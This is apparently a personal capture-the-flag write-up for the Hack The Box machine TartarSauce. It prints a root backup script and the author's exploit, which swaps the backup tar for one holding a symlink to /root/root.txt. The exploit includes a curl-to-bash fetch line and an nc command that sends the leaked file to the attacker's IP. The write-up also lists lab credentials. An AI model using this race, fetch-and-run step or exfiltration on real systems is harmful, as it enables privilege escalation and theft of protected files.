onuma@TartarSauce:/etc/systemd/system$ ls -l /usr/sbin/backuperer
-rwxr-xr-x 1 root root 1701 Feb 21  2018 /usr/sbin/backuperer
onuma@TartarSauce:/etc/systemd/system$ s[
```

the backuperer file is the following

```bash
#!/bin/bash

#-------------------------------------------------------------------------------------
# backuperer ver 1.0.2 - by ȜӎŗgͷͼȜ
# ONUMA Dev auto backup program
# This tool will keep our webapp backed up incase another skiddie defaces us again.
# We will be able to quickly restore from a backup in seconds ;P
#-------------------------------------------------------------------------------------

# Set Vars Here
basedir=/var/www/html
bkpdir=/var/backups
tmpdir=/var/tmp
testmsg=$bkpdir/onuma_backup_test.txt
errormsg=$bkpdir/onuma_backup_error.txt
tmpfile=$tmpdir/.$(/usr/bin/head -c100 /dev/urandom |sha1sum|cut -d' ' -f1)
check=$tmpdir/check

# formatting
printbdr()
{
    for n in $(seq 72);
    do /usr/bin/printf $"-";
    done
}
bdr=$(printbdr)

# Added a test file to let us see when the last backup was run
/usr/bin/printf $"$bdr\nAuto backup backuperer backup last ran at : $(/bin/date)\n$bdr\n" > $testmsg

# Cleanup from last time.
/bin/rm -rf $tmpdir/.* $check

# Backup onuma website dev files.
/usr/bin/sudo -u onuma /bin/tar -zcvf $tmpfile $basedir &

# Added delay to wait for backup to complete if large files get added.
/bin/sleep 30

# Test the backup integrity
integrity_chk()
{
    /usr/bin/diff -r $basedir $check$basedir
}

/bin/mkdir $check
/bin/tar -zxvf $tmpfile -C $check
if [[ $(integrity_chk) ]]
then
    # Report errors so the dev can investigate the issue.
    /usr/bin/printf $"$bdr\nIntegrity Check Error in backup last ran :  $(/bin/date)\n$bdr\n$tmpfile\n" >> $errormsg
    integrity_chk >> $errormsg
    exit 2
else
    # Clean up and save archive to the bkpdir.
    /bin/mv $tmpfile $bkpdir/onuma-www-dev.bak
    /bin/rm -rf $check .*
    exit 0
fi
```

created the following exploit. The idea is to wait for the backup tar to be created and then to create a fake tar with a symbolic link that points to /root/root.txt like so

```bash
#!/bin/bash

# call with: curl http://10.10.14.97:80/backuperer-exploit/exploit.sh | bash
cd /dev/shm

# prep malicious tar
mkdir -p evil/var/www/html
# ln -s /root/root.txt evil/var/www/html/root.txt
ln -s /root/root.txt evil/var/www/html/robots.txt
tar zcvf /dev/shm/evil.tar.gz -C evil .

# wait for backup to appear, then swap
while true; do
    f=$(find /var/tmp -maxdepth 1 -name ".*" -type f 2>/dev/null)
    if [ -n "$f" ]; then
        cp /dev/shm/evil.tar.gz "$f"
        echo "[+] Swapped $f"
        break
    fi
    sleep 1
done

# wait for integrity check
sleep 35

cat /var/backups/onuma_backup_error.txt 
cat /var/backups/onuma_backup_error.txt | nc 10.10.14.97 4443
```

the output is the following:-

```bash
------------------------------------------------------------------------
/var/tmp/.82155913218291a33fc26c8c4b7665ebad5223b4
Only in /var/www/html: index.html
diff -r /var/www/html/robots.txt /var/tmp/check/var/www/html/robots.txt
1,7c1
< User-agent: *
< Disallow: /webservices/tar/tar/source/
< Disallow: /webservices/monstra-3.0.4/
< Disallow: /webservices/easy-file-uploader/
< Disallow: /webservices/developmental/
< Disallow: /webservices/phpmyadmin/
<
---
> 72a1391cc928341e52d421c3fcf0f7dd
Only in /var/www/html: webservices
┌─[julien@parrot]─[~/.hacklas/targets/track-oscp/TartarSauce/exploit/backuperer-exploit]
└──╼ $
```

we get the flag.

# Credentials

## monstra crm admin dashboard

- page = http://10.129.1.185/webservices/monstra-3.0.4/admin/index.php?id=pages
- username = admin
- password = admin

## Database Creds

```bash
define('DB_NAME', 'wp');
define('DB_USER', 'wpuser');
define('DB_PASSWORD', 'w0rdpr3$$d@t@b@$3@cc3$$');
define('DB_HOST', 'localhost');
```

# References

# To Improve

## Need to learn how to identify and enumerate WP sites.

Updated Web enumeration checklist to include Wordpress and wordpress plugins

## Run Recon in the background during enumeration

Have reckon tasks like gobuster, ffuf, etc running in the background during an engagement

## Forgot exploit

The next time I get an exploit to work, I should script the whole thing as to not waste time during the next engagement. Also useful for the next time HTB decides to revoke my completion.

## No SSH port

When I got an initial foothold with `www-data` I was so preoccupied trying to find a password to login as omni that I forgot there was no ssh port. Should have realised I would run `sudo -u omni` with tar.
